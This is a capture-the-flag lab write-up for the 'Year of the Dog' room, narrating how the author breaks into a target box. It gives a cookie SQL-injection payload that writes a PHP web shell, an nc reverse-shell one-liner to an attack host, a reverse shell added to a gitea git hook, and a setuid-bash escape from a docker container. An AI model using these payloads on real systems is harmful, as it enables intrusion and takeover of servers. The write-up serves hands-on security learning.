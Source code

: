# Year of the Dog

A hard room that required *a lot* of enumeration before I figured it out, including a few dead ends.

## Getting a shell

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`

## Getting user

- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine.
- enumerating this for *hours* got me nowhere. eventually, i went back over the machine with `linpeas.sh` and checked over a file I had seen earlier: `work_analysis`, plain ascii, in dylan's home dir. I had checked this before, seen it as a list of sshd failures with nothing of note. on the second check, huge facepalm, I found it had an entry for a failed login that was obviously the user dylan typing his password as his username. trying this I was able to `su` as dylan.

## Getting root

This was complex. Dylan owned all the files in /gitea, so I figured it was something to do with that.

- i tried to find the gitea executable via `find / -name gitea -type f 2>/dev/null`. I couldn't find it, but i did find git hook config files for each repo
- i had already created a test repo, and it had a file here: `/gitea/git/repositories/dylan/test-repo.git/hooks/update.d/gitea`, the contents of which looked like a standard bash file
- i appended a reverse shell call and then updated the repo. I got a call back! as user `git`
- git had rights to sudo as everything, so I elevated to root and done... right?
- quickly realised I was in a docker container on the main machine, and so no. also, it wasn't a privileged container.
- HOWEVER, the /data/gitea folder inside the container was mapped to /gitea/gitea on the host and they hadn't enabled user remapping in docker! documented here, https://docs.docker.com/engine/security/userns-remap/, in brief, it stops root inside the container from ALSO being effectively root on the host.
- so the final exploit was to copy bash into that mapped folder, use the container root to invoke `chown root bash` and `chmod u+s bash` then invoke it from outside as dylan via `./bash -p`. Boom, root

Very fun, very long. Spent around four hours on this - mostly trying to get various gitea exploits to run. That reverse port forward was ultimately unnecessary, but worth learning for the future.
